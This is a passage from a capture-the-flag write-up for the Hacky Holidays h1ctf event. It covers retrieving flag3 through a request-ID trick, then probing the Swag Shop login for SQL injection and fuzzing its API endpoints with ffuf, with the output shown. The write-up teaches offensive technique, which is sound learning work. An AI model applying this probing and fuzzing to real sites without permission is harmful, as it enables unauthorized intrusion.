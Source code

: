 ```python
    if req.status != 404:
        table.add(req)
``` 

One response has notably more words, flag3 has now been secured!
```json
payload: {"id":1}
response: {"id":"eyJpZCI6MX0=","name":"The Grinch","rating":"Amazing in every possible way!","flag":"flag{b705fb11-fb55-442f-847f-0931be82ed9a}"}
```

`flag{b705fb11-fb55-442f-847f-0931be82ed9a}`

Flag4 -Swag Shop
---------------------
It's shopping time. I don't know why I should be supporting enemies' businesses but here I am. Here's the shop page.

{F1139607}

I won't lie I was feeling bougie and that 400$ snowball launcher didn't sound too bad. But unfortunately, we're not here for pleasure. After trying out the page functionalities we can see that in order to buy one of the objects we need login credentials. 
One thing that I like to do when I see a login form is quickly testing the POST `/login` request for a low-hanging SQLi vulnerability and *luckily* this was not the case. Both heuristic tests (spraying the inputs with characters such as `'` and `--` to see if something breaks or acts funny) and the sqlmap output confirmed it.
After analyzing the HTTP history for our target page we see that the backend is using an API base endpoint to execute significant operations (e.g. `/api/login` and `/api/purchase`). What could this mean? I didn't have an answer right away because I proceeded to procrastinate for a few hours like a good mature and disciplined adventurer would do. 

As soon as I got back on the page I thought of the advice I gave at the beginning of this story and proceeded to run a quick content-discovery with common API endpoints wordlist

```shell
~$ ffuf -w ~/tools/wordlists/seclists/Discovery/Web-Content/api/objects.txt -u "https://hackyholidays.h1ctf.com/swag-shop/api/FUZZ" -mc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.2.0-git
________________________________________________

 :: Method           : GET
 :: URL              : https://hackyholidays.h1ctf.com/swag-shop/api/FUZZ
 :: Wordlist         : FUZZ: /home/thezoomer/tools/wordlists/seclists/Discovery/Web-Content/api/objects.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

sessions                [Status: 200, Size: 2194, Words: 1, Lines: 1]
:: Progress: [3132/3132] :: Job [1/1] :: 312 req/sec :: Duration: [0:00:10] :: Errors: 0 ::
``` 
